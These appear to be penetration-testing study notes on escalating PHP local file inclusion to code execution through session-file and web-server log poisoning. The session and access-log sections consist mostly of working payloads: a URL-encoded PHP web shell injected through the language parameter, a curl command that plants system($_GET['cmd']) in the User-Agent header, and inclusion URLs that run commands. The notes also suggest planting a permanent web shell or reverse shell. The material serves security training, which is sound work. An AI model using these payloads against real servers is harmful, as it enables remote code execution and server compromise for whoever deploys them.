 Writing PHP code in a field we control that gets logged into a log file and then include that log file to execute the PHP code.
- The PHP application should have read privileges over the logged files

Functions with execute privileges vulnerable to these attacks:
PHP: include() / include_once(), require() / require_once()
NodeJS: res.render()
Java: import
.NET: include

## PHP Session Poisoning
PHPSESSID cookies are stored on backend
- Linux: /var/lib/php/sessions/
- Windows: C:\Windows\Temp\
- If PHPSESSID cookie is el4k, then it would be located at /var/lib/php/sessions/sess_el4k

**LFI of cookie file
```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```
```url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```
```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```
- This should show our custom value for the page, session_poisoning, which shows we can control the page
- Now, POISON cookie file
```url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```
```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

**Note
To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten with /var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd after our last inclusion. Ideally, we would use the poisoned web shell to write a permanent web shell to the web directory, or send a reverse shell for easier interaction.


## Server Log Poisoning
Apache and Nginx maintain log files, access.log and error.log. In access.log, it includes each request's User-Agent, so we can poison this.
- Need read-access over the logs.
- Nginx are readable by low privileges users (www-data)
- Apache are readable by high privileged users (root/adm)

**Log Locations:
Apache: /var/log/apache2 in Linux and C:\xampp\apache\logs on Windows
Nginx: /var/log/nginx on Linux and C:\nginx\log\ on Windows

**Check readable Log
```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```
- We can read it. Now, poison the User-Agent header with Burp

**Poison the log file
```
echo -n "User-Agent: <?php system(\$_GET['cmd']); ?>" > Poison
curl -s "http://<SERVER_IP>:<PORT>/index.php" -H @Poison
```
```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log&cmd=id
```

Other system logs we can poison:
- /var/log/sshd.log
- /var/log/mail
- /var/log/vsftpd.log

This technique can be applied to ssh, ftp, or mail services. Use the username to input the PHP command, or the body of the email.
